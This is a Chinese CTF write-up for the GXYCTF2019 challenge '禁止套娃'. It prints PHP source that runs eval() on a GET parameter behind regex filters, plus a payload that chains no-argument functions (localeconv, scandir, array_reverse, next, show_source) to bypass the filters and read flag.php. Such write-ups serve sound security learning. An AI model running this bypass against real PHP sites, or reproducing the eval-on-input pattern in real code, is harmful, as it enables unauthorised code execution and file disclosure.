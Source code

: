```yaml
---
title: "[GXYCTF2019]禁止套娃"
date: 2020-03-16
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```


# [GXYCTF2019]禁止套娃

## 知识点

```
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
scandir() 列出 images 目录中的文件和目录。
readfile() 输出一个文件。
current() 返回数组中的当前单元, 默认取第一个值。
pos() current() 的别名。
next() 函数将内部指针指向数组中的下一个元素，并输出。
array_reverse()以相反的元素顺序返回数组。
highlight_file()打印输出或者返回 filename 文件中语法高亮版本的代码。
show_source() 显示文件内容
```

<!-- more -->

## WP

img后面的参数base32,base63,hex解码得555.png

index.php hex,base64,base32编码传参img在网页源代码img标签解码base64得到源码

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

### payload

```
?exp=show_source(next(array_reverse(scandir(current(localeconv())))));
```

主要利用点`pos(localeconv())`或者`current(localeconv())`变成`.`

`array_reverse`数组反转

`next`将指针指向第二个,为flag.php